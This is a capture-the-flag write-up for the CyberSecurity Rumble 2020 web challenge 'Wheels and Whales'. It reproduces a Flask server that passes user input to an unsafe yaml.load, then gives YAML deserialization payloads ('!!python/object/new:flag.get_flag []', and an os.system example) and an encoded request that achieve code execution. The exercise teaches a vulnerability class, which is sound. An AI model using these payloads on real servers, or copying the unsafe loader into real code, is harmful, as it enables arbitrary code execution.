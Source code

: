 ```yaml
---
ctf: CyberSecurityRumble
year: 2020
tags:
  - web
  - ace
---
```


# CyberSecurity Rumble CTF

## Web

### Wheels and Whales

The goal is this challenge is to run the function `flag.get_flag()`.
The code of the server is provided below, even though most is fluff.

```python
import yaml
from flask import redirect, Flask, render_template, request, abort
from flask import url_for, send_from_directory, make_response, Response
import flag

app = Flask(__name__)

EASTER_WHALE = {"name": "TheBestWhaleIsAWhaleEveryOneLikes", "image_num": 2, "weight": 34}

@app.route("/")
def index():
    return render_template("index.html.jinja", active="home")


class Whale:
    def __init__(self, name, image_num, weight):
        self.name = name
        self.image_num = image_num
        self.weight = weight

    def dump(self):
        return yaml.dump(self.__dict__)


@app.route("/whale", methods=["GET", "POST"])
def whale():
    if request.method == "POST":
        name = request.form["name"]
        if len(name) > 10:
            return make_response("Name to long. Whales can only understand names up to 10 chars", 400)
        image_num = request.form["image_num"]
        weight = request.form["weight"]
        whale = Whale(name, image_num, weight)
        if whale.__dict__ == EASTER_WHALE:
            return make_response(flag.get_flag(), 200)
        return make_response(render_template("whale.html.jinja", w=whale, active="whale"), 200)
    return make_response(render_template("whale_builder.html.jinja", active="whale"), 200)


class Wheel:
    def __init__(self, name, image_num, diameter):
        self.name = name
        self.image_num = image_num
        self.diameter = diameter

    @staticmethod
    def from_configuration(config):
        return Wheel(**yaml.load(config, Loader=yaml.Loader)) # insecure load

    def dump(self):
        return yaml.dump(self.__dict__)


@app.route("/wheel", methods=["GET", "POST"])
def wheel():
    if request.method == "POST":
        if "config" in request.form:
            wheel = Wheel.from_configuration(request.form["config"]) # load usage
            return make_response(render_template("wheel.html.jinja", w=wheel, active="wheel"), 200)
        name = request.form["name"]
        image_num = request.form["image_num"]
        diameter = request.form["diameter"]
        wheel = Wheel(name, image_num, diameter)
        print(wheel.dump())
        return make_response(render_template("wheel.html.jinja", w=wheel, active="wheel"), 200)
    return make_response(render_template("wheel_builder.html.jinja", active="wheel"), 200)

if __name__ == '__main__':
    app.run(host="0.0.0.0", port=5000)
```

The server is able to serialize and deserialize `yaml`,
we can leverage the usage of an insecure loader to get ACE.

We are in luck as the function has recently deprecated and `pyyaml`'s wiki has a [post](https://github.com/yaml/pyyaml/wiki/PyYAML-yaml.load(input)-Deprecation) explaining the reasons and providing an example.

The example is as follows:

```sh
python -c 'import yaml; yaml.load("!!python/object/new:os.system [echo EXPLOIT!]")'
```

From the example we can craft our own payload,
`name` contains the malicious command which calls `flag.get_flag`,
with `[]` as argument since the function does not take any.

This will evaluate the call and return the flag as our wheel name.

```
name: !!python/object/new:flag.get_flag []
image_num: 2
diameter: 2
```

What is left is to send a request with `?config=name:%20!!python/object/new:flag.get_flag%20%5B%5D%0Aimage_num:%202%0Adiameter:%202`.

